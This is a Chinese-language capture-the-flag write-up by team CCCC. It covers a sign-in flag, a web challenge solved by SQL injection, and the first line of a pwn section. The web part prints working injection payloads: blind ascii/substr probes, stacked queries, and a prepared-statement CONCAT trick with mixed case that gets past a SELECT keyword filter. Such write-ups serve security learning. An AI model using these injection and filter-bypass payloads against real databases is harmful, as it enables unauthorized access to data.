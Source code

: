 ```yaml
---
team: CCCC
members:
    - BC (18) 
    - M@tr1x (18)
    - Akashic以太 (19)
---
```


## Sign IN
### 1.Starting Point | Author: BC
没啥好说的，进xdsec网站查看源码就拿到flag了...  

## WEb | Author: BC，Akashic以太
### id_wife | Author: ID1, ID2
这个题怎么说，好像根据BUUCTF的那个随便注改的吧？之前我也写过那个题的wp.
但最开始没想到堆叠注入，试了挺多方法写脚本跑一下库名表名，最后得到了库名miniL，没跑出来表名,这个就是用二分法不断的尝试 

```sql
id=1') or (ascii(substr(database(),1,1)))<150#
```

后来想起来应该是堆叠注入，得到了俩表user和1145141919810，查看下内容

```sql
id=1') or (ascii(substr(database(),1,1)))<150;show columns from `user`;
id=1') or (ascii(substr(database(),1,1)))<150;show columns from `1145141919810`;
```

然后查看列在1145141919810中看到了content（flag也应该在这里） 
在mysql中支持预编译可以绕过很多种限制，本题中由于可以使用堆叠查询，并且需要使用SELECT关键字并绕过过滤，因此想到利用字符串转换与拼接构造语句最后执行，这时就可以使用预处理语句。  
在sql中我们运用如下语句预编译：

```sql
set @sql=CONCAT('sele','ct content from `1145141919810`');
prepare payload from @sql;
execute payload;
deallocate prepare payload;
```

做到最后后一个hint：strstr（）是提示我们大小写的，多试着改几次
```sql
id=1') or (ascii(substr(database(),4,1)))=105;SET @SQL=CONCAT('sele','ct content From `1145141919810`'); PREPARE PAYLOAD FROM @sql;EXECUTE Payload;Deallocate prePare payload;Show Columns From `1145141919810` ;#
```
然后就可以拿到flag了（发现怎么还有个假的？？？emmmm）

## Pwn
### hello | Author: M@tr1x
这个题首先放gdb里看看保护
